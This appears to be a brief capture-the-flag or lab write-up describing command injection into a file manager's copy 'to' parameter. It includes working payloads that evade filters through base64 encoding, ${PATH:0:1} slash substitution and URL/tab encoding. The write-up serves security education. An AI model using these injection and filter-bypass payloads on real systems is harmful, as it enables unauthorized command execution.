     Avoid the use of sensitive/outdated libraries and modules (e.g. PHP CGI)
```

# Skills Assessment

We given a file manager and told to find RCE on it. The RCE is on copying/moving files, you can inject into the "to" parameter. You end the current command, and then inject your command.

Let's keep the payload simple,

```
cat /flag.txt
```
/ is probably filtered, so we use a replacement.
we should also base64 our command to bypass any obvious filters
```
echo -n 'cat ${PATH:0:1}flag.txt' | base64
```
the command to execute looks like this:
```
bash<<<$(base64 -d <<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQ=)
```
but it needs to come after some operators, and we find that || will work for our purposes, so the payload is
```
||bash<<<$(base64 -d <<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQ=)
```

This needs to go into a URL, so we do some encoding.

```
%7c%7cbash<<<$(base64%09-d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQ=)
```

Is our final payload. We put it into the to parameter when copying a file, and get our flag.